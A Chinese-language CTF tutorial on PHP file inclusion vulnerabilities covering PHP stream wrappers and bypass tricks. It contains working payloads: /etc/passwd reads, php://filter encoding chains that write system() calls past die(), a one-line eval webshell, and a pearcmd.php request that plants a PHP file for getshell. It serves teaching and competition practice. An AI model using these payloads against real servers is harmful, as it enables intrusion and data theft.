




# 文件包含漏洞

## 文件包含概述

> 开发人员常常把可重复使用的函数写入到单个文件中，在使用该函数时，直接调用此文件，而无需再次编写函数，这一过程就叫做包含。

比如说 `Python` 中我们可以通过 `import` 导入其他Python文件中的代码，从而实现 Base 编解码的功能。

```python
import base64

s = b'Hello CTF'
print(base64.b64encode(s))
```

又比如 `C语言` 中的 `include` 将 `stdio.h` 文件中的代码包含到当前文件中，从而实现标准输入输出。

```c
#include <stdio.h>

int main() {
  printf("Hello CTF");
  return 0;
}
```

**文件包含漏洞** 通常出现在*动态网页*中，有时候由于网站功能需求，会让前端用户选择要包含的文件，而开发人员又没有对要包含的文件进行安全考虑，比如：*对传入的文件名没有经过合理的校验，或者校检被绕过*，就导致攻击者可以通过修改文件的位置来让后台*包含任意文件*，从而导致文件包含漏洞。

> 注意：*网上常说的文件读取漏洞、文件下载漏洞均可理解为文件包含漏洞。*

大多数Web语言都支持文件包含操作，其中 PHP 语言所提供的文件包含功能太强大、太灵活，也就导致文件包含漏洞经常出现在 PHP 语言中。

在 PHP 中常用的文件包含函数有以下四种：

- include()

   找不到被包含的文件时只会产生警告，脚本将继续运行。

- include_once()

   与 `include()` 类似，唯一区别是如果该文件中的代码已经被包含，则不会再次包含。

- require()

   找不到被包含的文件时会产生致命错误，并停止脚本运行。

- require_once()

   与 `require()` 类似，唯一区别是如果该文件中的代码已经被包含，则不会再次包含。

当以上 *四种函数* 参数可控的情况下，我们需要知道以下两点特性，

- 若文件内容符合 PHP 语法规范，包含时不管扩展名是什么都会被 PHP 解析。
- 若文件内容不符合 PHP 语法规范则会暴漏其源码。

当然除了以上常用的文件包含函数外，还有以下可以实现读取文件内容的函数，感兴趣的读者可以自行百度。

```php
file_get_contents()
highlight_file()
fopen()
readfile()
fread()
fgetss()
fgets()
parse_ini_file()
show_source()
file()
var_dump(scandir('/')); 
```

## 文件包含分类

在文件包含中，主要分为 `本地` 和 `远程` 两种类别，分类取决于所包含文件位置的不同。这两种分类依赖于 `php.ini` 中的两个配置项，注意对配置进行更改时，注意 `On / Off` 开头需大写，其次，修改完配置文件后务必要重启 Web 服务，使其配置文件生效。

```ini
allow_url_fopen （默认开启）
allow_url_include #（默认关闭，远程文件包含必须开启）
```



### 本地文件包含

当被包含的文件在服务器本地时，如下图所示。

```
http://127.0.0.1/?filename=/etc/passwd
http://127.0.0.1/?filename=./phpinfo.txt
```





### 远程文件包含

当被包含的文件在远程服务器时，如下图所示。

```
http://127.0.0.1/?filename=http://loki.la/ReaDME.md
```



## 如何判断服务器类型

> 虽然判断服务器类型的必要性不是很大，因为按照国内比赛的套路来看，题目环境基本为 Linux + Apache，不过还是有必要性说一下思路的。

### 读取文件

可以尝试读取 `/etc/passwd` 如果可行则代表操作系统为 Linux，反之为 Windows（注意判断不是百分百正确，不排除可控点存在过滤不允许任意文件包含）

### 大小写混写

可以在文件包含读取文件时，利用大小写敏感的特性来判断服务器类型，因为在 Linux 中严格区分大小写，而 Windows 不区分大小写。

如：在 Windows 下你要包含的文件为 `lfi.txt`，即使你写成 `Lfi.txt`、`lFi.tXT`等形式也可包含成功。

## 文件包含协议

### file://

- **条件**：

  - allow_url_fopen：不受影响
  - allow_url_include：不受影响
  
- **作用**：

  用于访问本地文件系统。

- **说明**：
  
  *file://* 是 PHP 使用的默认封装协议，展现了本地文件系统。 当指定了一个相对路径（不以/、\、\\或 Windows 盘符开头的路径）提供的路径将基于当前的工作目录。 在很多情况下是脚本所在的目录，除非被修改了。 使用 CLI 的时候，目录默认是脚本被调用时所在的目录。

  在某些函数里，例如 [fopen()](https://www.php.net/manual/zh/function.fopen.php) 和 [file_get_contents()](https://www.php.net/manual/zh/function.file-get-contents.php)， `include_path` 会可选地搜索，也作为相对的路径。

- **用法**：

  ```pgsql
  file:///etc/passwd
  file://C:/Windows/win.ini
  ```
  
- **示例**：

  file://[文件的绝对路径和文件名]

  ```
  http://127.0.0.1/?filename=file:///etc/passwd
  ```

  

### php://

- **条件**：

  - allow_url_fopen：不受影响
  - allow_url_include：仅 `php://input`、 `php://stdin`、`php://memory`、`php://temp` 需要 `on`

- **作用**：
  访问各个输入/输出流（I/O streams）

- **说明**：
  PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符，
  内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。

  | 协议                    | 作用                                                         |
  | ----------------------- | ------------------------------------------------------------ |
  | php://input             | 可以访问请求的原始数据的只读流。 如果启用了 [enable_post_data_reading](https://www.php.net/manual/zh/ini.core.php#ini.enable-post-data-reading) 选项， php://input 在使用 `enctype="multipart/form-data"` 的 POST 请求中不可用。 |
  | php://output            | 只写的数据流， 允许你以 [print](https://www.php.net/manual/zh/function.print.php) 和 [echo](https://www.php.net/manual/zh/function.echo.php) 一样的方式 写入到输出缓冲区。 |
  | php://fd                | (>=5.3.6) php://fd 允许直接访问指定的文件描述符。 例如 php://fd/3 引用了文件描述符 3。 |
  | php://memory php://temp | (>=5.1.0) 类似文件 包装器的数据流，允许读写临时数据。 两者的一个区别是 php://memory 总是把数据储存在内存中， 而 php://temp 会在内存量达到预定义的限制后（默认是 2MB）存入临时文件中。 临时文件位置的决定和 [sys_get_temp_dir()](https://www.php.net/manual/zh/function.sys-get-temp-dir.php) 的方式一致。php://temp 的内存限制可通过添加 `/maxmemory:NN` 来控制，`NN` 是以字节为单位、保留在内存的最大数据量，超过则使用临时文件。 |
  | php://filter            | (>=5.0.0) 元封装器， 设计用于数据流打开时的[筛选过滤](https://www.php.net/manual/zh/filters.php)应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 [readfile()](https://www.php.net/manual/zh/function.readfile.php)、 [file()](https://www.php.net/manual/zh/function.file.php) 和 [file_get_contents()](https://www.php.net/manual/zh/function.file-get-contents.php)， 在数据流内容读取之前没有机会应用其他过滤器。 |

- **php://filter 参数详解**

  该协议的参数会在该协议路径上进行传递，多个参数都可以在一个路径上传递。具体参考如下：

  | 名称                        | 描述                                                         |
  | :-------------------------- | :----------------------------------------------------------- |
  | `resource=<要过滤的数据流>` | 这个参数是必须的。它指定了你要筛选过滤的数据流。             |
  | `read=<读链的筛选列表>`     | 该参数可选。可以设定一个或多个过滤器名称，以管道符（`|`）分隔。 |
  | `write=<写链的筛选列表>`    | 该参数可选。可以设定一个或多个过滤器名称，以管道符（`|`）分隔。 |
  | `<；两个链的筛选列表>`      | 任何没有以 `read=` 或 `write=` 作前缀 的筛选器列表会视情况应用于读或写链。 |

- **可用的过滤器列表**

  在 CTF 竞赛中常用的为 `转换过滤器`，在一些极端情况下可以通过 `字符串过滤器` 实现 bypass，当然这里需要大家了解一下 [PHP 支持的字符编码](https://www.php.net/manual/zh/mbstring.supported-encodings.php)，另外其他的过滤器类型详见：https://www.php.net/manual/zh/filters.php

  | 字符串过滤器 | 作用                           |
  | ------------ | ------------------------------ |
  | string.rot13 | 等同于`str_rot13()`，rot13变换 |

  ---

  | 转换过滤器                                                   | 作用                                                       |
  | ------------------------------------------------------------ | ---------------------------------------------------------- |
  | convert.base64-encode & convert.base64-decode                | 等同于`base64_encode()`和`base64_decode()`，base64编码解码 |
  | convert.quoted-printable-encode & convert.quoted-printable-decode | quoted-printable 字符串与 8-bit 字符串编码解码             |

- **用法**：

  ```php
  # 直接读，PHP 代码会被解析
  php://filter/resource=flag.php
  # 针对 PHP 文件（常用）
  php://filter/read=convert.base64-encode/resource=flag.php
  # 其他字符编码
  php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php
  # Rot13
  php://filter/string.rot13/resource=1.php
  # 
  php://input
  [POST DATA部分]
  <?php phpinfo(); ?>
  ```
  
- **示例**

  **convert**

  ```php
  <?php
  highlight_file(__FILE__);
  error_reporting(0);
  function filter($x){
      if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
          die('too young too simple sometimes naive!');
      }
  }
  $file=$_GET['file'];
  $contents=$_POST['contents'];
  filter($file);
  file_put_contents($file, "<?php die();?>".$contents);
  ```
  把 Base64 和 Rot13 过滤了，根据 [PHP 支持的字符编码](https://www.php.net/manual/zh/mbstring.supported-encodings.php)，发现 PHP 支持的字符编码还是挺多的，我们这里随便选择一个进行使用

  ```
  GET: ?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php
  POST: contents=?<hp pystsme"(ac tlf"*;)
  ```

  关于代码生成，注意 `ucs-2` 编码的字符串位数一定要是偶数，否则会报错，`ucs-4` 编码的字符串位数一定要是 4 的倍数，否则会报错

  ```php
  <?php 
  echo iconv("UCS-2LE","UCS-2BE",'<?php system("cat fl*");');
  // ?<hp pystsme"(ac tlf"*;)
  ```
  **base64**

  ```php
  # index.php
  <?php
    highlight_file(__FILE__);
    require($_GET['filename']);
  ?>
  ```
  ---
  
  ```php
  # flag.php
  <?php
  
  // $flag = 'flag{th14_1s_m3_fl4g}';
  echo '答案在注释里，自己找吧';
  ```

  我们可以利用 `php://filter` 伪协议来读取文件内容，需要注意的是，`php://filter` 伪协议如果不指定过滤器的话，默认会解析 PHP 代码，所以我们需要指定 `convert.base64-encode` 过滤器来对文件内容进行编码

  ```php
  php://filter/read=convert.base64-encode/resource=flag.php
  ```

  **rot13**

  ```php
  <?php
  if(isset($_GET['file'])){
      $file = $_GET['file'];
      $content = $_POST['content'];
      $file = str_replace("php", "???", $file);
      $file = str_replace("data", "???", $file);
      $file = str_replace(":", "???", $file);
      $file = str_replace(".", "???", $file);
      file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
      
  }else{
      highlight_file(__FILE__);
  }
  ```

  一个写文件的题，但是有过滤，不允许包含 `php` , `data` , `:` 和 `.` 但是在写入操作的时候，会把 `file` 参数进行 `urldecode`，所以我们可以两次 `urldecode` 来绕过过滤，然后只需要考虑如何绕过 `<?php die('大佬别秀了');?>` 中的 `die()` 即可

  我们可以尝试使用 Base64 绕过 `die()`，Base64 的编码范围是 `0-9` , `a-z` , `A-Z` , `+` 和 `/` ，其他字符会被忽略，去掉不支持的字符，只剩下了 `phpdie` 了，因为 Base64 解码是按照 4位 一组进行解码的，所以我们需要在最终编码出来的字符串中最前面添加两个字母，以达到 Base64 解码的规则

  ```php
  // 需要两次URL编码
  GET: ?file=php://filter/convert.base64-decode/resource=1.php
  // 需要base64编码，编码后最前面添加两个字母如：aa
  POST: content=<?php system('cat f*');
  ```

  另一种方法是使用 Rot13 编码

  ```php
  // 需要两次URL编码
  GET: ?file=php://filter/string.rot13/resource=1.php
  // 需要Rot13编码
  POST: content=<?php system('cat f*');
  ```

  Rot13 解码后写入的文件内容变为了

  ```php
  <?cuc qvr('大佬别秀了');?><?php system('cat f*');
  ```

  这样就可以绕过 `die()` 了
  
  **input**
  
  ```php
  # 注意使用 php://input 的时候必须开启 allow_url_include
  <?php
    highlight_file(__FILE__);
    include($_GET['filename']);
  ?>
  ```
  
  
  
  当我们有写入操作的时候，可以直接写入一句话木马
  
  ```php
  <?php file_put_contents('muma.php', '<?php @eval($_POST[cmd]);');
  ```


### data://

- **条件**：

  - allow_url_fopen：on
  - allow_url_include： on

- **作用**：自 `PHP>=5.2.0` 起，可以使用 `data://` 数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。

- **用法**：

  ```php
  data://text/plain,<?php phpinfo();
  data://text/plain;base64,[Base64编码后的代码]
  ```

- **示例**：

  ```php
  # 注意使用 data:// 的时候必须开启 allow_url_include 和 allow_url_fopen
  <?php
    highlight_file(__FILE__);
    include($_GET['filename']);
  ?>

  推荐使用 `base64` 编码进行参数的传递

  

## bypass

### pearcmd

在[Docker PHP裸文件本地包含综述](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)中，提到了 `pearcmd.php` 的利用方法。该方法无需竞争条件，也没有额外的版本限制，只要是Docker启动的PHP环境即可通过一个数据包搞定。

> 在Docker的任何版本镜像中，`pcel/pear`都会被默认安装，安装路径在`/usr/local/lib/php`

通过发送以下数据包，目标将写入一个文件 `/tmp/hello.php`，其中包含 `<?=phpinfo()?>`。然后，利用文件包含漏洞包含这个文件即可实现getshell。

```http
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
Host: 192.168.1.162:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

### peclcmd

与 `peclcmd` 相似，参考 [SEETF-2023](https://github.com/zeyu2001/My-CTF-Challenges/blob/main/SEETF-2023/readonly/README.md) 中的一道题目。

### proc

在文件包含漏洞的情境中，通常会存在非预期的情况，例如 [Dreamer_revenge](https://5ime.cn/hmgb-2023.html#Dreamer-revenge)（红明谷杯 2023）、[ArkNights](https://jbnrz.com.cn/index.php/2023/09/03/ycb2023/#header-id-13)（羊城杯 2023）、[YamiYami](https://ph0ebus.cn/post/HDCTF2023 Writeup.html#非预期解)（HDCTF 2023）、[MyBox](https://www.cnblogs.com/gxngxngxn/p/17662463.html)（NSSCTF 2nd）。因此，如果出题人未清空变量，很有可能通过 `/proc` 实现非预期攻击。

`/proc` 是一个在 Linux 系统中用于访问内核内部数据结构、获取系统信息以及控制系统行为的虚拟文件系统。它提供了一种通过文件系统的方式查看和操作内核状态的机制。值得注意的是，`/proc` 是一个伪文件系统，其数据只存在于内存中，而不占用硬盘空间。

以下是一些常用的 `/proc` 目录下文件和目录：

1. `/proc/self`：表示当前进程的目录。通过 `/proc/self` 可以方便地获取当前进程的信息。
2. `/proc/$pid/`：表示进程号为 `$pid` 的进程目录。例如，`/proc/1234/` 对应进程号为 1234 的进程（Docker容器默认的PID为1）

一些常用的 `/proc` 文件和目录：

- `/proc/self/cmdline`：包含当前进程的完整命令行参数。
- `/proc/self/cwd`：是一个符号链接，指向当前进程的当前工作目录。
- `/proc/self/exe`：是一个符号链接，指向当前进程的可执行文件。
- `/proc/self/environ`：包含当前进程的环境变量。
- `/proc/self/fd/`：是一个目录，包含当前进程打开的文件描述符的符号链接列表。

通过读取这些文件，可以获取关于进程的详细信息，方便进行调试和监控。在给定上下文中，对于 Docker 容器，`/proc` 中的信息可以用于发现容器内部的运行时信息，如进程启动命令、环境变量等。